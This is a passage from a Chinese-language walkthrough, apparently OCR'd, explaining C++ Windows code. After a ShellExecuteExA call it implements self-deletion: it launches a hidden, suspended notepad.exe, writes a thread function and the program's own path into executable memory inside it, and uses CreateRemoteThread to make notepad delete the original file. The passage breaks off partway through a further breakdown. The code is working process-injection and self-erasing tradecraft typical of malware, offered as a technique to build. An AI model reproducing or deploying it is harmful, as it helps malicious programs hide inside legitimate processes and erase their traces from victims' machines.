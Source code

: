 
```cpp
ShellExecuteExA(&shellexecute);
```

`ShellExecuteExA` 函数使用 `shellexecute` 结构体中的参数执行与指定文件关联的默认操作。

---

#### 实现自删除

```cpp
// 3. 实现自删除
//下面是实现自删除，网上的自删除方法有很多，用的多的是批处理，这里是创建一个进程然后用远程线程注入来让notepad删除当前程序
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION  pi = { 0 };
CreateProcessA("c:\\windows\\system32\\notepad.exe", 0, 0, 0, TRUE, CREATE_NO_WINDOW | CREATE_SUSPENDED, 0, 0, &si, &pi);
//创建进程
DeleteStruct DS;
DS.dwDeleteFile = GetProcAddress(GetModuleHandleA("kernel32.dll"), "DeleteFileA");
GetModuleFileNameA(NULL, DS.dwDeleteFile_param_1, MAX_PATH);
//创建远程线程不能直接使用API，需要把函数指针放在结构中传过去
//这里需要DeleteFileA这个函数，用GetProcAddress得到指针后传过去

LPVOID ADDRESS = VirtualAllocEx(pi.hProcess, 0, 2048, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, ADDRESS, &threadProc, 2048, 0);
//为函数开辟一块内存

LPVOID pRemoteParam = VirtualAllocEx(pi.hProcess, 0, sizeof(DS), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, pRemoteParam, &DS, sizeof(DS), 0);
DWORD RETSIZE;
//为参数开辟一块内存
HANDLE Thread = CreateRemoteThread(pi.hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)ADDRESS, pRemoteParam, 0, &RETSIZE);
//执行该线程
CloseHandle(Thread);
//关闭句柄
```

- 使用 `CreateProcessA` 创建一个挂起的 `notepad.exe` 进程。
- 初始化 `DeleteStruct` 结构体，设置 `dwDeleteFile` 为 `DeleteFileA` 函数的地址，并设置 `dwDeleteFile_param_1` 为当前可执行文件的路径。
- 使用 `VirtualAllocEx` 和 `WriteProcessMemory` 在远程进程中分配内存并写入 `threadProc` 函数和参数。
- 使用 `CreateRemoteThread` 在远程进程中创建线程，执行 `threadProc` 函数，该函数会删除当前可执行文件。

---

- 创建新进程

  ```cpp
  STARTUPINFOA si = { 0 };
  PROCESS_INFORMATION  pi = { 0 };
  ```
